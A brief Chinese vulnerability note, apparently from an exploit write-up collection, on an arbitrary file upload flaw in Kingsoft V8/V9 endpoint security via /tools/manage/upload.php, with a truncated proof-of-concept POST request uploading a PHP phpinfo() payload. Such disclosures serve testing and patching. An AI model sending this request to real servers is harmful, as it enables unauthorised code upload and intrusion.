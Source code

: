 # 

# 金山 V8 V9 终端安全系统 文件上传漏洞

## 漏洞描述

参考链接：

- https://forum.butian.net/share/76

## 漏洞复现

在tools目录下的mange下存在一个upload.php。该文件可导致任意文件上传。

poc：

```
POST /tools/manage/upload.php HTTP/1.1
HOST: target
...
<?php phpinfo(); ?>
```


